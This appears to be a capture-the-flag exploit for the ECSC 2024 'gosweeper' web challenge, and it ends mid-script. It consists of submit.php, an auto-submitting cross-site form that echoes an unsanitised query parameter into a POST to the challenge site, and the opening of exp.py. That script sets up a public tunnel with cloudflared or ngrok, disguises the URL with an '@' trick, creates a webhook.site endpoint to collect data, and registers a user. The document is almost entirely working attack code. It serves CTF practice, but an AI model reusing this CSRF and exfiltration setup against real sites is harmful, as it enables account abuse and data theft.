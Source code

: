 ### submit.php
```html
<form action="https://gosweeper.challs.open.ecsc2024.it/guess" method="post">
    <input type="text" name="guess" value="<?php echo $_GET['i'];?>">
    <input type="submit" id="clickme">
</form>
<script>

    document.getElementById('clickme').click();

</script>
```

### exp.py

```py
'''
Usage

php -S localhost:8001
cloudflared tunnel --url http://localhost:8001
# ngrok http 8001

# put the cloudflare / ngrok url in exploit_url
python3 exp.py
'''

import requests
import re
import time
import sys


chall_url = "https://gosweeper.challs.open.ecsc2024.it"
exploit_url = "https://barry-perhaps-cannon-domains.trycloudflare.com"

exploit_url = exploit_url.replace("://", ":// @")
DIM = 7
userid = None

if len(sys.argv) > 1:
    userid = sys.argv[1]

r = requests.post('https://webhook.site/token')
token_id = r.json()['uuid']

webhook_url = f'https://webhook.site/{token_id}/'

print("Webhook URL: " + webhook_url)

s = requests.session()

if userid:
    print("Logging in")
    r = s.post(chall_url + "/login", data={"userid": userid, "password": "password"})

    assert r.status_code == 200
    assert 'User ID' in r.text

    print("Logged in")
else:
    print("Registering user")
    r = s.get(chall_url + "/register")

```